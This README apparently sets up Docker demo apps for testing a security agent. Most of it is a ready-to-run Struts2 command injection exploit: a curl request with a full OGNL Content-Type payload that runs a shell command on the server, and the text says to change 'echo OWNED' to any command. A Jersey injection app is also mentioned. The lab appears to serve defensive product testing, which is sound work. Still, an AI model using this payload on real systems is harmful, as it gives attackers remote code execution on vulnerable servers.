 
**setup**

0.  install docker and docker-compose
1.  untar your agent distribution to the tcell/ directory
2.  copy your tcell_agent.config file to the tcell/ directory


**For the Struts2 Command Injection exploit:**

1.  launch with `docker-compose up struts2-exploit` from this directory.
2.  inject a command with the following `curl` statement.
```bash
curl http://127.0.0.1:8081/struts2-showcase-2.3.12/showcase.action  -H "Content-Type:%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='echo OWNED').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
**Note**  change `echo OWNED` in the above statement to any command you want.


**For the Jersey Command Injection app:**

1.  launch with `docker-compose up jersey-injection` from this directory
2.  open `http://localhost:8080/jersey/` in your browser.
